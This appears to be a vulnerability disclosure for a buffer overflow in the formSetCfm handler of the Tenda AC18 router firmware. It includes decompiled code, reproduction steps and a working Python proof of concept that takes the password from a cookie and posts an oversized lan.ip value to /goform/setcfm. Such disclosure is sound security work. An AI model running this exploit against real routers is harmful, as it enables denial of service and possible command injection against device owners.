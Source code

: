 # Buffer Overflow in formSetCfm

## 1. Affected model(s) and firmware/software version(s)

Product: AC18

Version: V15.03.05.19(6318)

Downloaded from: https://www.tenda.com.cn/download/detail-2683.html

Binary: `/bin/httpd`

## 2. Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## 3. Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## 4. Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```

![](images/CVE1.gif)

## 5. Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## 6. Severity (e.g. CVSS v3.x)

DOS, Command injection

## 7. Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

